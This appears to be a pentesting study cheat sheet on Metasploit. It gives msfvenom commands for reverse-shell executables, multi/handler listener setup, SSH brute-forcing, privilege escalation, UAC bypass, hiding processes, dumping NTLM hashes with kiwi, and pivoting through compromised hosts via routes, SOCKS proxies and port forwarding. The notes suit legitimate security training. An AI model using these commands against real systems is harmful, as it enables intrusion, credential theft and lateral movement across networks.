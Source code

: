 <h3 id="the-basics">The Basics</h3>
<p><strong>Setup and Navigate Metasploit</strong></p>
<ul>
<li>Database isn&#39;t enabled by default<ul>
<li><code>sudo msfdb init</code>, <code>sudo systemctl enable postgresql</code><ul>
<li>To restart database, stop postgresql and then <code>sudo msfdb reinit</code></li>
</ul>
</li>
<li>Run <code>db_status</code> in the console to check</li>
</ul>
</li>
<li>Workspaces<ul>
<li><code>workspace</code> - create workspaces when pentesting a client </li>
<li><code>db_nmap</code> - works like regular nmap, but stores results in the db<ul>
<li>Query db with <code>hosts</code> for hosts and <code>services</code> for services</li>
</ul>
</li>
</ul>
</li>
<li><code>show -h</code> to show all modules, like <code>exploits</code>, <code>payloads</code>, and <code>auxiliary</code><ul>
<li>Showing payloads is nice; default is usually reverse tcp shell
<strong>Auxiliary Modules</strong></li>
</ul>
</li>
<li>Used for external attacks, like enumeration, scanning, fuzzing, sniffing, etc.</li>
<li><code>search</code> to search through the modules, with <code>type</code> to specify the module type<ul>
<li>For example: <code>search type:auxiliary smb</code> or <code>search Apache 2.4.41</code></li>
<li>When some exploits have multiple targets, and you have a m</li>
</ul>
</li>
<li><code>use</code> to use a module with a given index from a search<ul>
<li>For example: <code>use /auxiliary/scanner/ssh/ssh_login</code> to brute force ssh</li>
</ul>
</li>
<li><code>info</code> to get information about the current module</li>
<li><code>show options</code> to give options that the module can use</li>
<li><code>set {option} {parameter}</code> to set an option to a given parameter, like RHOSTS to an IP<ul>
<li><code>unset</code> to unset</li>
<li>can set files by providing the path</li>
<li>can set payloads by providing the path (<code>/payload/linux/x86/shell_reverse_tcp</code>)</li>
</ul>
</li>
<li><code>vulns</code> to see if any vulnerabilities have been automatically detected</li>
<li><code>creds</code> to show any discovered creds</li>
<li><code>run -j</code> to run a job in the background and create a session for one client</li>
<li><code>sessions</code> can switch between shells<ul>
<li>Use CTRL+Z to exit a shell but keep it in the background</li>
<li><code>sessions -l</code> to list available sessions</li>
<li><code>sessions -i {session_number}</code> to switch (interact) with a session<h3 id="using-payloads">Using Payloads</h3>
<strong>Staged/Non-Stated Payloads</strong></li>
</ul>
</li>
<li>Non-staged: payload is sent along with the exploit<ul>
<li>No use of <code>/</code>  means that it&#39;s non-staged (e.g. <code>shell_reverse_tcp</code>)</li>
</ul>
</li>
<li>Staged: Exploit the machine for a callback, then give a larger payload<ul>
<li><code>/</code> indicates a staged payload (e.g. <code>shell/reverse_tcp</code>)</li>
</ul>
</li>
<li><code>show payloads</code> to see a list of all payloads<ul>
<li><code>set payload {index}</code> to set a payload after showing them
<strong>Meterpreter</strong></li>
</ul>
</li>
<li>Multi-function payload residing entirely in memory</li>
<li><code>help</code> to display commands in shell</li>
<li><code>sysinfo</code>  and <code>getuid</code> to gather system data</li>
<li>put <code>l</code> before any command to run it on kali</li>
<li>Channels:<ul>
<li>Basically the same thing as <code>sessions</code> in msf</li>
<li><code>shell</code> and Ctrl+Z to push a channel to the background</li>
<li><code>channel -l</code> to list all channels</li>
<li><code>channel -i 1</code> to interact with a channel</li>
</ul>
</li>
<li><code>download {file_path}</code> to download a file from the system</li>
<li><code>upload {local_file_path} {resulting_file_path}</code> to upload a file to the system</li>
<li><code>search -f {filename}</code> to search from <code>/</code> for a file named <code>{filename}</code>
<strong>Executable Payloads</strong></li>
<li><code>msfvenom</code> can generate malicious executables</li>
<li><code>msfvenom -l payloads --platform {os (windows)} --arch {arch (x86)}</code> to list payloads</li>
<li><code>msfvenom -p {path_to_payload} LHOST={IP} LPORT={kali_listening_port} -f {filetype (exe)} -o {output_executable}</code> to generate an executable</li>
<li>To get an interactive shell via a staged payload, we can use Metasploit&#39;s <em>multi/handler</em><ul>
<li><code>use multi/handler</code></li>
<li>Staged payloads will now give us an interactive shell</li>
</ul>
</li>
<li>Steps:<ul>
<li><code>msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=&lt;IP&gt; LPORT=&lt;port&gt; -f c</code><ul>
<li>We only get one meterpreter shell, so consider these instead:<ul>
<li><code>windows/x64/shell_reverse_tcp</code></li>
<li><code>linux/x64/shell_reverse_tcp</code></li>
</ul>
</li>
</ul>
</li>
<li><code>msfconsole</code></li>
<li><code>use exploit/multi/handler</code></li>
<li><code>set payload linux/x86/meterpreter/reverse_tcp</code></li>
<li><code>set LHOST 10.0.0.1</code></li>
<li><code>set LPORT 4444</code></li>
<li><code>exploit -j</code><h3 id="post-exploitation">Post-Exploitation</h3>
<strong>Meterpreter Post-Exploitation Features</strong></li>
</ul>
</li>
<li><code>idletime</code> to see how long it&#39;s been since the system was used (e.g. don&#39;t run shit until empty)</li>
<li><code>getsystem</code> to attempt to elevate privileges to NT AUTHORITY\SYSTEM</li>
<li><code>migrate {process_id}</code> - injects meterpreter into another process for stealth and persistence<ul>
<li>If no good processes exist, create one with <code>execute -H -f {process (notepad)}</code><ul>
<li><code>-H</code> hides the process, so no visual representation will be present
<strong>Post-Exploitation Modules</strong></li>
</ul>
</li>
</ul>
</li>
<li>After injecting ourselves into another process, our privilege level drops, so we need to escalate</li>
<li><code>exploit/windows/local/bypassuac_sdclt</code> is good for UAC bypassing on Windows<ul>
<li>We can set our session to the session running the shell (from Ctrl+Z -&gt; <code>bg</code>)</li>
</ul>
</li>
<li>Can load extensions directly inside the active session using <code>load</code><ul>
<li><code>load kiwi</code> to load an extension equivalent to Mimikatz</li>
<li><code>help</code> to view commands, like <code>creds_msv</code> to dump NTLM hashes</li>
</ul>
</li>
<li>Can search for post exploitation modules with <code>search post ...</code><ul>
<li>These only require a meterpreter session id
<strong>Pivoting with Metasploit</strong></li>
</ul>
</li>
<li>After getting on a machine, we can enumerate the network in a number of ways</li>
<li>If we find an internal IP from something like <code>ipconfig</code>, we can pivot to it with the following:<ul>
<li><code>bg</code> to background the session in meterpreter and <code>route add {IP.IP.IP.0/24} {session_number}</code> to add a route to an internal network reachable through a compromised host<ul>
<li>We can remove old routes with <code>route flush</code></li>
</ul>
</li>
<li>We can then set RHOSTS to an internal IP and use something like <code>auxiliary/scanner/portscan/tcp</code> to scan the open ports on the internal IP</li>
<li>Running exploits is the exact same--it just required the route set up in Metasploit</li>
</ul>
</li>
<li>Can also use <code>autoroute</code> module to set up pivot routes<ul>
<li><code>use multi/manage/autoroute</code></li>
<li><code>set session {session_ID}</code> - can list all sessions with <code>sessions -l</code></li>
</ul>
</li>
<li>Can also combine routes with <code>server/socks_proxy</code><ul>
<li><code>use auxiliary/server/socks_proxy</code></li>
<li>Then set <code>VERSION</code>, <code>SRVHOST</code> as localhost, and <code>run -j</code><ul>
<li>This will probably return the port 1080</li>
</ul>
</li>
<li>Then add <code>socks5 127.0.0.1 1080</code> to <code>/etc/proxychains4.conf</code></li>
<li>Can then use proxychains to run commands, such as <code>xfreerdp</code><ul>
<li><code>sudo proxychains xfreerdp /v:{internal_target_IP} /u:luiza</code></li>
</ul>
</li>
</ul>
</li>
<li>Can also use <code>portfwd</code><ul>
<li>Use a meterpreter session with <code>sessions -i {session #}</code></li>
<li>Then, port forward with <code>portfwd add -l {local_port} -p {remote_port} -r {int_IP}</code></li>
</ul>
</li>
</ul>
<h3 id="automation">Automation</h3>
<p><strong>Resource Scripts</strong></p>
<ul>
<li>Can chain together metasploit commands and Ruby code<ul>
<li>Put all commands in a script (.rc) and pass it to msfconsole with <code>-r</code></li>
<li>Can configure AutoRunScript to automatically execute a module after the script has been run - <code>set AutoRunScript {module (/post/windows/manage/migrate)}</code></li>
<li><code>set ExitOnSession</code> to false to keep the multi/handler listening after a connection</li>
<li>Then, run with <code>-z</code> and <code>-j</code> to put the job in the background and stop us from interacting</li>
</ul>
</li>
<li>Prebuilt available at <code>/usr/share/metasploit-framework/scripts/resource</code></li>
</ul>
